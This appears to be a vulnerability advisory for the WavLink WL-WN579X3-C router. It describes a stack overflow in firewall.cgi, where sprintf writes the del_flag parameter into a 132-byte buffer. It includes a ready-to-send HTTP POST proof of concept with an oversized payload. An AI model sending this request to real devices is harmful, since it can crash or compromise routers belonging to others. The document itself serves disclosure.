


# WL-WN579X3-C Vulnerability

Vendor:WavLink

Product: WL-WN579X3-C

Vulnerability: Stack Overflow

Type:Remote Stack Overflow


## Descriptions

We found an `overflow` vulnerability  in `firewall.cgi` that could be triggered by an attacker through carefully crafted packet requests:

In  ftext function,the router compare the `firewall` parameter.

When the value of `firewall` is `singlePortForwardDelete`, the function sub_40139C will be called.

<div  align="center"></div>

The function uses sprintf to write data into a fixed-size stack-allocated buffer `v4(132 bytes)` .

The sprintf function is dangerous because it does not perform any bounds checking—it will write data to the buffer regardless of the buffer's actual size.

<div  align="center"></div>


## Proof of Concept (PoC)

```http
POST /cgi-bin/firewall.cgi HTTP/1.1
Host: 192.168.6.4
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.6.4/man_security.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1343648634
Connection: keep-alive
Content-Length: 186

firewall=singlePortForwardDelete&del_flag=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```
## Before
<div  align="center"></div>

## After
<div  align="center"></div>


